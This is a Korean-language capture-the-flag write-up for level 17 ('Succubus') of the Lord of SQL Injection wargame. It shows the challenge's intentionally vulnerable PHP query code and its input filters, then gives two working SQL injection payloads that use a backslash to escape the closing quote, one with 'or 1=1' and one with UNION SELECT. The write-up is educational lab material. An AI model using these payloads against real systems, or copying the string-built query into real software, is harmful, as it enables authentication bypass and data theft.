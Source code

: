 # Lord of SQL Injection No.17 - Succubus
## 문제 출제 의도
\ (backSlach)을 통해 single quote를 무효화 시킬 수 있는지 확인한다.
## 소스 코드
~~~
<?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
    if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
    $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) solve("succubus"); 
    highlight_file(__FILE__); 
?>
~~~
## 분석 결론
    - GET방식으로 받은 id안에 prob, _, .,(,)이 하나라도 있으면 "No Hack ~_~"이 출력되고 문제 풀이에 실패한다.
    - GET방식으로 받은 pw안에 prob, _, .,(,)이 하나라도 있으면 "No Hack ~_~"이 출력되고 문제 풀이에 실패한다.
    - GET방식으로 받은 id안에 single quote가 있으면 "HeHe"가 출력되고 문제 풀이에 실패한다.
    - GET방식으로 받은 pw안에 single quote가 있으면 "HeHe"가 출력되고 문제 풀이에 실패한다.

## 문제 해결
1. Query문 추가
    - 다음과 유사한 방법으로 문제 해결이 가능하다.
    ~~~
    ?id=\&pw=or 1=1 -- -
    ~~~
    - '\'는 특수문자 앞에 붙으면 다음 특수문자를 일반 문자로 바꿔 준다.
2. UNION
    - 다음과 유사한 방법으로 문제 해결이 가능하다.
    ~~~
    ?id=\&pw=UNION(SELECT "admin")-- -
    ~~~
